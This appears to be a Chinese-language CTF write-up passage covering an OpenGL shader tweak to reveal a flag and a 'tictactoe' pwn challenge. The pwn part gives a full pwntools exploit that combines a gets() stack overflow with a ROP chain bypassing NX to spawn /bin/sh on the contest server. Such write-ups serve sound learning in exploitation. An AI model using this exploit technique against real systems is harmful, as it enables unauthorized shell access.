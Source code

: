 图片隐写之傅里叶变换。

## 超简陋的 OpenGL 小程序

修改了下视角：

```C++
gl_Position = vec4(gl_Position.x+1, gl_Position.y, -gl_Position.z, gl_Position.w);
```

![Flag](https://konanoo-typora.oss-cn-beijing.aliyuncs.com/flag.png)

请了学 OpenGL 的室友来帮忙，然而他也不太会……

## 生活在博弈树上

第一问，gets 函数？一看就是栈溢出！win 还是局部变量！直接覆盖掉就好了 w

第二问，观察到开了 NX 保护，所以要找点 gadget。至于 `\bin\sh` 就再调用 gets 写到 bss 段就好了。

```python
from pwn import *

context.log_level = 'debug'
local = False

if local:
    r = process('./tictactoe')
else:
    r = remote('202.38.93.111', 10141)
    r.sendlineafter('Please input your token:', '')
e = ELF('./tictactoe')

pop_rax_ret = 0x0043e52c
pop_rbx_ret = 0x0040274b
pop_rdx_ret = 0x0043dbb5
main_addr   = 0x004022F4
binsh_addr  = 0X004A8AD0
system_call = 0x00402bf4
pop_rdi_ret = 0x004017b6
pop_rsi_ret = 0x00407228
get_addr    = e.symbols['gets']

rop = [pop_rdi_ret, binsh_addr, get_addr, pop_rax_ret, 0x3b, pop_rdi_ret, binsh_addr, pop_rsi_ret, 0, pop_rdx_ret, 0, system_call]
payload = flat(['(1,1)', '\01'*(152-5), b''.join(list(map(p64, rop)))])

r.sendlineafter('such as (0,1):', payload)
r.recvuntil('Here is your flag:')
r.sendline('/bin/sh')
r.interactive()
```

写题解的时候突然意识到……为啥不直接 gets 然后把 shellcode 写到代码段就好了……不是更容易了吗？我蠢。
